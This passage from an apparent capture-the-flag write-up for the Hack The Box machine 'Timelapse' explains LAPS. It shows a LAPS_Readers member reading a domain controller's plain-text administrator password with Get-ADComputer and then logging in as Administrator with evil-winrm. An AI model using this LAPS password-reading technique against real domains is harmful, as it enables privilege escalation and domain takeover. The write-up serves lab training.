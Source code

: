 The user `svc_deploy` belongs to `LAPS_Readers` group.

For the background,
With LAPS, the DC manages the local administrator passwords for computers on the domain. It is common to create a group of users and give them permissions to read these passwords, allowing the trusted administrators access to all the local admin passwords.

In the domain's computer objects, the implementation of LAPS results in the addition of two new attributes: **ms-mcs-AdmPwd** and **ms-mcs-AdmPwdExpirationTime**. These attributes store the **plain-text administrator password** and **its expiration time**, respectively.

```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-ADComputer DC01 -property 'ms-mcs-admpwd'


DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : ]MTq4Y2L0t[htP@[;+5cSQO7
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :
```

Based on the result, `Administrator`'s password is `]MTq4Y2L0t[htP@[;+5cSQO7`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i timelapse.htb -u 'Administrator' -p ']MTq4Y2L0t[htP@[;+5cSQO7' -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```

I got a root shell!